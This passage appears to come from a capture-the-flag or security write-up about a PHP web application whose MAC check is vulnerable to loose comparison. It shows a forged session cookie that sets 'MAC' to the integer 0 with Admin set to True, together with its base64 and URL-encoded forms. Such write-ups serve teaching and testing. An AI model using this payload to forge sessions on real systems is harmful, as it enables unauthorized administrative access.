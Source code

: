 ```
 "iv": "137f87545d8d2f994c65a6f336507747",
 "value": "c30fbe54e025b2a509db7a1fc174783c35d023199f9a0e24ae23a934277aec66"
 "mac": 68,
}

The MAC bug allows an attacker to submit arbitrary ciphertexts and IV's which
are processed by the server in CBC mode.
```

So let's try changing the `MAC` field to an integer instead of a string to see
if the validation code is vulnerable to "loose comparison".. but what integer
to use?

<img src="php-loose-comparison-table.jpg" width=500px/>

If the MAC field is a string, the table appears to suggest that `if ("str"==0)`
would resolve to `true`, so if we feed in a MAC of `0`.. would that make the
comparison always work?

```
$ echo '{"User":"Admin","Admin":"True","MAC":0}' | base64
eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOjB9Cg==
```
```
URL ENCODED
ses=eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOjB9Cg%3D%3D
```
